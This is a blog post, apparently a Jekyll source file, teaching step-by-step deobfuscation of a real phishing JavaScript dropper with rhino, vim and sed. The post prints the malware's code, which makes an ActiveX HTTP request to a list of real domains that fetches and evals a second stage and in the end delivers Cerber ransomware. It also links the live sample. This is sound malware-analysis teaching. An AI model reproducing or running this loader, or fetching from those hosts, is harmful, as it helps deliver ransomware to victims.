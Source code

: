 ```yaml
---
layout: post
title:  "Simple Js deobfuscation"
date:   2017-08-28 12:00:00 +0700
categories: Javascript deobfuscation
---
```


# Simple JS deobfuscation

## First hand on javascript deobfuscation
For this excercice we will use a really simple real javascript that was used on mass phishing campaign to drop payload into the target's computer.
You can find the malicious javascript here :

On hybrid-analysis :

**hash** : 0413a0c095230c5a1d9fd24c5526e381

(You need to have a free account on hybrid-analysis to be able to download sample) This website is really interessting if you are looking for sample to analyse :)
[Link to the Hybrid-analysis sample](https://www.hybrid-analysis.com/download-sample/90d8e7b7149fff458d5ce7adc173dcf323788460da33247be9718f8930edc8a3?environmentId=100)

### Take care ! This sample is real and can be dangerous if you manipulate it in a real environment :)
I'm going to do this analysis on a linux system (SIFT workstation).

I'have installed rhino a little cli javascript shell. Really useful :)

But you can do big part of this exercice with Firefox using the console available when you type F12.
First check the file type :
{% highlight shell %}
file 0413a0c095230c5a1d9fd24c5526e381 0413a0c095230c5a1d9fd24c5526e381: ASCII text, with CRLF line terminators
{% endhighlight %}
... Nothing much, ok it's an ASCII text file we are safe to open it into any text editor (VIm, emacs, leafpad, nano ...).
Just by opening you see that the obfuscation used here is not advanced :
{% highlight javascript %}
var sder = "P"; var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
{% endhighlight %}

 We can see severals variables declaration, some of them are really self explanatory

* x : variable contains some domain/subdomain name. You already find your IOC ;)

* t4 : contains "http" must be used to declare the url where is stored the payload :)

* g2 : is pretty easy to understand to, just a concatenation of strings and another variable.

* pi6dnz : is more difficult but when you look at the type of character used you can see that they are hexadecimal value. If you look at your ascii table ...
{% highlight shell %}
man ascii
{% endhighlight %}

You can see that the hexadecimal value 70 = p 65 = e 6E = n
...p e n... ok it might be used somewhere else later ..
* m : this one is the hardest to understand, we will see it later.

Ok let's use rhino on this small parts.

If you don't have rhino you can install it on a ubuntu based distro just by typing :

{% highlight shell %}
apt-get install rhino
{% endhighlight %}

Then just start it :

{% highlight javascript %}
rhino js >
{% endhighlight %}

Just take the variable you want and copy paste it.
I'm going to use t4 and pi6dnz and print them using the print(); function (Simple :p)

{% highlight javascript %}
js> var pi6dnz = "\x70"+"\x65\x6E";
js> var t4 = "ht"+"tp";
js> print(t4);
http
js> print(pi6dnz);
pen
{% endhighlight %}

Ok i think you understand the concept now.
Let's continue with the other part of the js

{% highlight javascript %}
for (var i=0; i<x.length; i++)
{
var vDJmB = function(){ return new ActiveXObject(g2); }(); var e = vDJmB; try {
var raspbna2s=["\x6F"+pi6dnz]; e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false); e.send();
}
{% endhighlight %}

First we enter in a for loop with i incrementing.

Then a function declaration creating an ActiveXObject with the parameter g2. If you played a little bit with rhino you will find that :

{% highlight javascript %}
js> print(g2); Msxml2.XMLHTTP
{% endhighlight %}

Just after it, we can see the creation of an object called e.
{% highlight javascript %}
var e = vDJmB;
{% endhighlight %}
So e is a ActiveXObject.


Here we enter in a try and then a new declaration of variable :
{% highlight javascript %}
var raspbna2s=["\x6F"+pi6dnz];
{% endhighlight %}

We find pi6dnz back, 6F is the ascii for o so o + pen = .... ? ;)

And then the big query :

{% highlight javascript %}
e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false);
{% endhighlight %}

If you try to print this with rhino here there will be 2 little trick:
First you need to remove the e because it's a object. You also need to change i to the number 0 (it's related to the domain name list that we saw earlier. It's an array so incrementing i will change the domain name requested.

And there is also the false at the end to remove.


If you go to msdn.microsoft.com about the function used here you will find your scheme
{% highlight javascript %}
var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP.3.0"); xmlhttp.open("GET","http://localhost/books.xml", false);
xmlhttp.send();
{% endhighlight %}

In rhino add all variable or create a little js script :

{% highlight javascript %}
var sder = "P";
var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyCAIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
var raspbna2s=["\x6F"+pi6dnz];
var i = 0;
print(raspbna2s[0] + ""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?" + m);
{% endhighlight %}

Tada, you will see the full url requested by the javascript.

After this the script try to receive what was requested.

You will need to download with a wget the malicious script to continue :)

With a simple wget you can download the payload.

I you open it with vim you can see we have more obfuscated js.

Go back to your first js and let's look at the operation done on the answer of the server (the url that you downloaded trough wget.

{% highlight javascript %}  
reqty(e.responseText.split(m).join(zaima.substring(2,3)));
{% endhighlight %}

We can see that we have some kind of substition of the m variable and added at the end the third character of the variable zaima (that is a).

We can do the same kind of substition using vim and sed. Or any text editor that allow to replace character by other :)

So we have to replace LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k by a

{% highlight shell %}
vim JS.txt
:s/LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k/a/g
{% endhighlight %}

You will then have a JS with lots of variable incrementation var NXmef= "...." var NXmef+="..."
Lots of stuff are added to the string.
To easilty see what is inside this long string just check a the end of the JS. change the eval(NXmef) by a simple print

{% highlight javascript %}
print(NXmef);
{% endhighlight %}

The unobfuscated Js code will then be available with new IOC (new urls used :) ).
This javascript code download a executable that is a ransomwar : cerber.
